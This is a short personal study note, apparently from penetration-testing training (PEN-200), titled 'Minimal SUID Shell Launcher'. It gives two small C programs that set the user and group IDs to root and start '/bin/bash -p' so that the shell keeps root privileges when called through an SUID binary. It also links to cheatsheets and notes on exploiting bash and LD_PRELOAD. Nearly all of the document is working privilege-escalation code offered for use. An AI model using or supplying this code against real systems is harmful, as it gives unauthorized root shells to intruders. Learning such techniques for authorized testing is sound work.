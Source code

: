 # Minimal SUID Shell Launcher

**author**:: Nathan Acks  
**date**:: 2022-08-05

```c
#include <stdio.h>
#include <unistd.h>

main() {
	setuid(0);
	setgid(0);
	execl("/bin/bash",
	      "/bin/bash",
	      "-p",
	      (char*) NULL);
}
```

Alternate approach:

```c
#include <stdio.h>
#include <time.h>

main() {
	setresuid(0, 0, 0);
	setregid(0, 0, 0);
	system("/bin/bash -p");
	return 0;
}
```

Once compiled, this needs to be called by an SUID binary. The `-p` is required to keep bash from dropping privileges.

Note that this is very similar to the `LD_PRELOAD` trick, except that we're using `execl()` instead of `system()` and dropping a header.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
* [unistd's execl() without passing any arguments](https://stackoverflow.com/a/34400649)
* [Exploiting Bash](exploiting-bash.md)
* [Exploiting LD_PRELOAD](exploiting-ld-preload.md)
* [2022-08-05 - OffSec Live: PEN-200](../log/2022-08-05-offsec-live-pen-200.md)
